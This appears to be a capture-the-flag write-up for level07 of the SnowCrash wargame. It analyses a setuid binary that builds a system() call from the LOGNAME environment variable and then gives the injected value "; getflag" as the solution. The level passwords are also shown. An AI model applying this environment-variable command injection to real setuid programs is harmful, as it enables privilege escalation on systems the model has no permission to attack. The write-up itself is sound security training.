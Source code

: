 # Solve Level07
pass : wiok45aaoguiboiki2tuin6ub

## Description
- home
    - -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
        - looks like a binary C file
            - find inside with ```strings level07```
                - system()
                - sprintf()
                - /bin/echo ==> this time it use direct path, changing PATH is useless
                - setresuid
                - getenv ==> use to get an env var ==> here 'LOGNAME'
                - setresguid
            - execute
                - print the name of the current user (level07 in snowCrash kali in my local kali machine)

- LOGNAME env var
    - changing the var change the return value of the program
    - removing the var ```unset LOGNAME``` create an error ==> ```sh: 1: Syntax error: word unexpected (expecting ")")```
        - getenv() return null if nothing is pass [source][df1]
    - ```export LOGNAME="; getflag"```

## Solution
- ```export LOGNAME="; getflag"```
- ```./level07```

no flag
level08 : fiumuikeil55xe9cu4dood66h

## Resolve problem
- be carefull when c program use env var

[df1]: https://koor.fr/C/cstdlib/getenv.wp
